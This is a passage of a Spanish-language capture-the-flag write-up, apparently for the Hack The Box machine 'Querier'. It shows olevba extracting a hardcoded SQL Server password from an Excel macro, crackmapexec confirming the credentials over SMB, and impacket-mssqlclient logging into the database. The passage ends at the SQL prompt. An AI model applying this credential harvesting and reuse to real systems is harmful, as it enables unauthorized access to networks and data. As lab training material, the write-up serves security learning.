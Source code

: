````bash
Dim rs As ADODB.Recordset

Set conn = New ADODB.Connection
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
conn.ConnectionTimeout = 10
conn.Open

If conn.State = adStateOpen Then

  ' MsgBox "connection successful"
 
  'Set rs = conn.Execute("SELECT * @@version;")
  Set rs = conn.Execute("SELECT * FROM volume;")
  Sheets(1).Range("A1").CopyFromRecordset rs
  rs.Close

End If

End Sub
-------------------------------------------------------------------------------
VBA MACRO Sheet1.cls 
in file: xl/vbaProject.bin - OLE stream: 'VBA/Sheet1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)

`````

La tool ``olevba`` nos permite analizar mas a fondo el archivo, vemos que la macro es para conectarse a un base de datos.

``Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"``

Tenemos un usuario ``reporting`` y una contraseña ``PcwTWTHRwryjc$c6`` comprobamos con ``Crackmapexec``.

````bash
❯ cme smb 10.10.10.125 -u 'reporting' -p 'PcwTWTHRwryjc$c6' -d WORKGROUP
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\reporting:PcwTWTHRwryjc$c6 
`````

Las credenciales son validas, la usaremos para intentar conectarnos a la base de datos con ``impacket-mssqlclient``

````bash
❯ impacket-mssqlclient WORKGROUP/reporting@10.10.10.125 -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> 
`````
